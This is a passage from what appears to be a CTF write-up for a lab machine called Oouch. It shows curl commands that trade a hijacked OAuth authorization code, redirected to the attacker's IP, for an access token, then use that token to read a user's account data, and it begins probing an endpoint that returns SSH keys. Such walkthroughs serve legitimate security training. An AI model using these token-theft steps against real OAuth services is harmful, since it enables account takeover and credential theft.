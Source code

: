     
    
    root@kali# curl http://authorization.oouch.htb:8000/oauth/token/ -d 'client_id=HTGoodnXs4IMOYhJzfss3JmF7m64bQHkoPwZOghy&client_secret=5MUCcGC9TlHJOWqmT2qJjqxKHHIzdGKE8PKqoIOgfhecIUPjoSTnxhWdNWI4BgqLb2yMcnq1N5viFgArgkd6PSWWxfJLPsxYP0kAgAS6AmoF9gNFVO56jymUpcnBYunm&redirect_uri=http://10.10.14.6/token&code=Yv0c6OXDFGhpMJ2nqvDTbMVcOfo3Si&grant_type=authorization_code' | jq .
    {
      "access_token": "gm05wp2kDWhSmS3QrZmdEqgvFGoEKD",
      "expires_in": 600,
      "token_type": "Bearer",
      "scope": "read",
      "refresh_token": "lGaAVRyhTybjuiRrF8SVPgiSNXR9Bk"
    }
    

It is worth noting the `expires_in` value of ten minutes. I lost some time
enumerating the API when the token expired and I didn’t realize it. I can use
the `refresh_token` to request a new `access_token` (I’ll leave that as an
exercise for the reader).

### SSH as qtc

#### get_user

I still have the hint about `/api/get_user`, and it makes sense now that I
have an `access_token` to access qtc’s data. I was able to find the API pretty
easily at `authorization.oouch.htb:8000/api/get_user`. In a browser, it just
returns a blank page. In Burp, I see it’s a 403:

    
    
    HTTP/1.1 403 Forbidden
    Content-Type: text/html; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Vary: Authorization
    

I can add the `Authorization: Bearer [token]` header, and it works:

    
    
    root@kali# curl -s authorization.oouch.htb:8000/api/get_user -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
    {
      "username": "qtc",
      "firstname": "",
      "lastname": "",
      "email": "qtc@nonexistend.nonono"
    }
    

#### get_ssh

Obviously this isn’t terribly useful information. I spent a while fuzzing for
additional parameters that might return the other information entered into the
signup form, the ssh key. Eventually, I tried hitting a different endpoint,
`/api/get_ssh`:

